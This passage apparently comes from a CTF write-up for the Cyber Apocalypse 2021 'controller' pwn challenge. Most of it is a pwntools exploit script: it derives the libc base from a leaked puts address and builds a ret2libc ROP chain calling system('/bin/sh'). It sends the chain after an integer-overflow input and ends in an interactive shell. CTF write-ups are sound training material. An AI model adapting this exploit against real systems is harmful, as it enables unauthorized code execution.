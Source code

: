 ```python
libc_base = puts_addr - libc.symbols['puts']
pwn.info("LIBC base: 0x%x" % libc_base)

system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
pwn.info("System address: 0x%x" % system_addr)
pwn.info("'/bin/sh' address: 0x%x" % bin_sh_addr)

ret = (rop_binary.find_gadget(['ret']))[0]  

ropchain = buffer + pwn.p64(ret) + pwn.p64(pop_rdi) + pwn.p64(bin_sh_addr) + pwn.p64(system_addr)

r.sendlineafter("Insert the amount of 2 different types of recources:", b"-2147483648 -2147418310")
r.sendlineafter(">", b"1")
r.sendlineafter(">", ropchain)

r.interactive()
r.close()
```

![](/assets/img/ctf/cyber-apocalypse-2021/pwn/controller/flag_controller.png)
